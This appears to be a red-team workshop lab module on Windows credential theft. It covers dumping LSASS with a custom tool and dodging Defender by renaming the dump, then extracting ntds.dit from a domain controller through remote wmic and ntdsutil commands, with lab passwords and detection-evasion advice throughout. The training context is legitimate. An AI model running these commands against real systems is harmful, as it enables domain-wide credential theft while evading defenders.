


# Advanced Credential Grabbing

Mimikatz is very burned, but you can still use its functionality on your attacker device where you don't have to worry about detections.  No reason the re-invent the wheel here, but custom tooling is required to get around the standard detections built in to most EDRS.

If you are looking to understand what part of various malware or attacker tools is being detected you can use defender check.

This tool will leverage the current database of defender and identify the area of a binary or file that is triggering a given alert.  This only works for static detections, not for heuristic or behavioral detections.

> **OPSEC NOTES**:
> - This can be ran remotely
> - You could have this feed out to a listenting IP/Port
> - Can be ran as an injected dll in another service.
> - the dump file itself is signatured by defender, much less the tools that generate it


## Custom LSASS Dump

> Turning defender off, can either be difficult, or not guarunteed to stay that way due to domain policies, or even other EDR implementations. So what to do?
> Even using AMSI bypasses can be concerning these days due to the frequency at which the signature are updated even for the bypasses. 
> More advanced actors are using custom tooling.  There are two considerations.  Executables can be executed in memory, but then the process is not directly tied to an executable. So you can inject into another process that is already running, which is really the way to go.
> Other options are to bring your own executable, or use signed executables already on the box to execute DLL files through sideloading to do your bidding.

Some examples of these techniques are what we will cover here and in the other adanced modules.

1. From the Lighteater (Attacker Box), RDP into the TWORIVERS (client) with the local administrator account.  TWORIVERS\Administrator:Summerishere@2023!
2. Ensure windows defender is turned back on. `Set-MpPreference -DisableRealtimeMonitoring 0`
2. Open an Administrative powershell terminal.
3. Change directory `cd c:\Users\Public\Desktop\LAB_FILES\assets`
4. Expand the archive for mimikatz again.
`expand-archive mimikatz_trunk.zip`
> Note: https://github.com/matterpreter/DefenderCheck
5. Unzip the custom-procdump folder.
`expand-archive .\custom-procdump.zip`
5. CD into the "custom-procdump" folder.
6. Execute the nimprocdump.exe program. 
```powershell
.\nimprocdump.exe
```


> This will find the process with lsass, and dump it into a file.  Important not to add this kind of info into a command line while you have commandline process auditing on. Which is why you build the options into the executable, and then additional information like PIDs are logged as arguments, which can later be used for detections.

This is detected and the proc.dump file is deleted.  Oh no!


> Notice it is not deleting the .exe and the alert is actually focused on that processes dump the proc.dump file.  So likely the alert is focused on the file itselt.

7. This time, lets simply rename the lsass.dump file.  
```powershell
.\nimprocdump.exe; rename-item c:\proc.dump c:\not.dump
```

> There are still alerts but the lsass.dump file is not deleted.
> Notice what happens when we run with cmd.exe
> How easy is it to change the file?

Let's talk about what else we should do.


## Create Domain Save with 
https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/

If you then end up with domain creds, one next step can be to grab the has credentials from the entire domain of course! There are a number of ways that have been flagged to essentaill steal the ntds.dit file from the Domain Controller.

Notes: VSSADMIN gets caught because it's use is so commonly associated with the steps that happen before you are ransomed.  Other tools like ninja copy require extended interaction within a remote session of powershell and loading of an additional library, all super noisy.

> If you can't tell, I reall think using tools that already exist on the sytem, or are commonly used by admins helps stay under the radar, and it makes detections for automated tooling really difficult. One such way is to use the ntdsutil tool that is built into domain controllers to create backup media.  Further, using wmic is just really hard to catch.  This is being actively used in the volt typhoon campaigns.

1. Remote into the TWORIVERS (client ) 172.31.24.111 with the domain admin credentials: wheel\ralthor : JustAn0therG!ng3r
2. As this user, open a administrative command prompt. (Leave defender on.)
3. Run the following command to launch this remote process on the Domain Controller using an administrative command prompt. Not powershell, the escape characters are different.

```batch
wmic /node:tarvalaon.wheel.co /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c mkdir C:\Windows\temp"
wmic /node: /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c ntdsutil \"ac i ntds\" ifm \"create full c:\Windows\temp\pew\" q q"
```

4. From you here you would retieve the file and unpack it to dump all the users and associated hashes without making really loud dcsync requests.

5. You can use the impackt secrets dump to dump hashes out fo the ntds.dit file.
[Secrets Dump Walk Through](https://airman604.medium.com/dumping-active-directory-password-hashes-deb9468d1633#:~:text=Using%20the%20two%20saved%20files%20%28NTDS.dit%20and%20SYSTEM,domain%20controller%29%3A%20secretsdump.py%20-system%20%3Cpath_to_system_hive%3E%20-ntds%20%3Cpath_to_ntds.dit%3E%20LOCAL)


> From here you sould properly cover your tracks, but that is a different workshop.

